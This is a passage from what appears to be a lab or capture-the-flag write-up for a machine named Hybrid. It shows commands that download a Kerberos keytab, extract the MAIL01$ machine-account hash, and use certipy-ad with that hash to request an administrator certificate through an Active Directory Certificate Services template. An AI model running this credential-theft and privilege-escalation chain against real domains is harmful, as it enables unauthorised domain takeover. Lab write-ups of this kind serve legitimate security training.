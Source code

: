 now let’s transfer the file to our machine

```bash
wget http://mail01.hybrid.vl:9090/krb5.keytab
```

![image.png](../images/hybrid%2035.png)

now let’s retrieve the MAIL01$ hash

```bash
python3 keytabextract.py ../krb5.keytab
```

![image.png](../images/hybrid%2036.png)

and we reconered the passwd of the MAIL01$ 

let’s now abuse the certificate service 

```bash
certipy-ad req -ca 'hybrid-DC01-CA' -dc-ip '10.10.255.101' -u 'MAIL01$' -hashes :0f916c5246fdbc7ba95dcef4126d57bd -template 'HybridComputers' -target 'dc01.hybrid.vl' -upn 'administrator@hybrid.vl' -key-size 4096
```

![image.png](../images/hybrid%2037.png)
